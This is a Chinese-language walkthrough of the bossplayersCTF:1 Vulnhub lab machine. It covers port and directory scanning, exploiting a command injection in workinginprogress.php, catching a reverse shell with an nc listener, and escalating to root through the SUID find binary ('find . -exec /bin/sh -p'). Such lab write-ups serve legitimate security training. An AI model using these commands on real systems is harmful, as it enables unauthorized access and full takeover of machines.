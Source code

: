 ```yaml
---
title: "bossplayersCTF:1-Vulnhub Walkthrough"
categories: ["安全技术"]
tags: ["vulnhub", "靶机", "walkthrough"]
draft: false
slug: "427"
date: "2020-01-14 12:16:00"
---
```


[靶机地址][1]
难度：简单

## 工具及漏洞信息

- netdiscover
- nmap
- dirb
- dirsearch
- gobuster
- 命令执行
- SUID 权限 find 命令提权

## 0x00 信息收集

### 扫描靶机信息

使用`netdiscover`扫描当前网段，看见主机名是`PCS Systemtechnik GmbH`的一般就是靶机了：

![][2]

```
nmap -sS -sV -n -T4 -p- 192.168.1.8
```

- -sS: TCP 同步扫描，也称为半开放扫描
- -sV: 探测开放端口以确定服务/版本信息
- -n: 不进行 dns 解析节约时间
- -T4: 时序模板设置为 4 级
- -p-: 扫描所有端口
- -A: 启用操作系统检测，版本检测，脚本扫描和跟踪路由，-A 选项包含-sV 选项

![][3]

可以看到只开了一个`apache`服务和`ssh`

### 扫描路径

dirb 默认扫描了只显示返回状态码为 200 的地址，还是很不错的：

```
dirb http://192.168.1.8 -X .php,.txt,.zip,.html
```

![][4]

相比之下，`dirsearch`默认显示所有返回的状态码的路径，使用`-x`执行不显示的状态码：

```
python3 dirsearch.py -t 50 -e .php,.txt,.zip,.html -x 400,403,404,500,503,514,564 -u http://192.168.1.8
```

![][5]

扫描工具还有`gobuster`，字典我们可以使用`star`了 2w 多星的一个[安全字典][6]

`kali`可直接使用命令`apt install seclists -y`安装，安装完默认字典位置在

```
/usr/share/seclists
```

然后我们扫描一下

```
gobuster dir -u http://192.168.1.8 -s 200,301,302 -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -x .php,.txt,.html,.zip
```

![][7]

这个工具也挺好用的

## 0x01 反弹 shell

接着访问一下`robots.txt`，发现是一串`base64`编码的字符，解码后发现靶机作者在开玩笑

![][8]

访问主页，源代码最后有一行注释

![][9]

尝试使用`base64`解码三次，得到一个文件名字`workinginprogress.php`:

![][10]

访问该路径：

![][11]

提示让我们执行`ping`命令，尝试多次后发现是`cmd`命令注入：

![][12]

这也就意味着这里能执行`shell`命令

在`kali`上执行`nc`监听：

```
nc -lvp 4444
```

![][13]

在刚才的命令注入处反弹 shell:

![][14]

获取到`shell`后从`python`的`pty.spawn`获取标准 pty，从 python 命令提示符到交互式 shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![][15]

可以看到我们现在以当前命令注入的身份`www-data`获取到了的网站根目录下的一个`shell`

find 命令本身具有此权限。 这使我们的工作变得容易一些。

使用`find`命令查找居于 SUID 权限可执行文件，我们使用命令

```
find / -perm -u=s -type f 2>/dev/null
```

- /: 在根目录下查找
- perm: 查找指定权限的文件，/u=s 或者-u=s 参数列出系统中所有`SUID`的档案
- type: 找符合指定的文件类型的文件，-type f: 查找指定目录下所有普通文件
- 2>/dev/null: 2>部分的意思是“重定向文件通道号 2”-映射到标准错误文件通道 stderr，这是程序经常将错误写入其中的位置，/dev/null 是一种特殊字符设备，只允许向其中写入任何内容；阅读时，它不会返回任何内容，因此 2>/dev/null 让 shell 将标准错误从正在运行的程序重定向到/dev/null，从而有效地将其忽略。
- SUID: SUID (Set owner User ID up on execution) 简单来说。suid，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。所以我们去找一个文件拥有者为 root，而且其执行位上有 s 的执行文件，那么即使我们用普通用户运行这个文件时，这个文件的执行权限就是 root
- 为什么使用 find 命令呢？原因：在 find 的后面，是可以带入命令的，而我们要的就是执行其他命令。也就是说，当我们调用 find 命令时，因为 find 命令有 s 权限，所以 find 在执行时的权限就是 root 命令，而在 find 后面的带入的命令也就是在 root 权限下执行的命令了

参考文章：

- [Unix/Linux 的 find 指令使用教學、技巧與範例整理][16]
- [Linux 配置不当提权-suid 提权][17]

![][18]

发现`/usr/bin/find`，也就是当前我们正在使用的`find`命令是具有`SUID`权限的

## 0x02 find 命令提权

尝试使用 find 命令调用/bin/sh 执行 shell

```
find . -exec /bin/sh -p \; -quit
```

- exec: 来对每一个找到的文件或目录执行特定命令。它的终止是以`;`为结束标志的，所以这句命令后面的分号是不可缺少的，考虑到各个系统中分号会有不同的意义，所以前面加反斜杠转义。
- quit: 表示命令执行完了就退出

![][19]

成功获得`root`的`shell`，查看`/root`目录下的`root.txt`文件，完成！

本文完。

参考文章：

- [bossplayersCTF 1: Vulnhub Walkthrough][20]
- [Bossplayers CTF - Walkthrough][21]
- [VulnHub 靶机系列实战教程][22]

[1]: https://www.vulnhub.com/entry/bossplayersctf-1,375/
[2]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_122237.png
[3]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_122426.png
[4]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_122700.png
[5]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_122751.png
[6]: https://github.com/danielmiessler/SecLists
[7]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_192936.png
[8]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_122857.png
[9]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_122934.png
[10]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_123011.png
[11]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_123128.png
[12]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_123208.png
[13]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_123256.png
[14]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_123317.png
[15]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_123349.png
[16]: http://blog.onepic.cc/2019/02/unix-linux-%E7%9A%84-find-%E6%8C%87%E4%BB%A4%E4%BD%BF%E7%94%A8%E6%95%99%E5%AD%B8%E3%80%81%E6%8A%80%E5%B7%A7%E8%88%87%E7%AF%84%E4%BE%8B%E6%95%B4%E7%90%86/
[17]: https://blog.csdn.net/Wu000999/article/details/100835226
[18]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_123427.png
[19]: https://img.soapffz.com/archives_img/2020/01/14/archives_20200114_123453.png
[20]: https://www.hackingarticles.in/bossplayersctf-1-vulnhub-walkthrough/
[21]: https://medium.com/infosec-adventures/bossplayers-ctf-walkthrough-83d62953d2ed
[22]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ
